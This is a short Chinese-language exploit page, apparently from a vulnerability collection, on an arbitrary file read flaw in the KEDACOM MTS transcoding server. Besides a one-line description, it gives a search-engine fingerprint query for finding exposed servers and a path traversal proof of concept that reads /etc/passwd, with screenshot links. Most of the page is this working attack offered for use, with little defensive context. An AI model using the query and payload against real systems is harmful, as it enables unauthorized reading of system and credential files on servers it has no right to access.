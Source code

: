 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>MTS转码服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MTS转码服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639570369459-12a283d6-4165-44c6-9618-0943fb751a91.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791.png)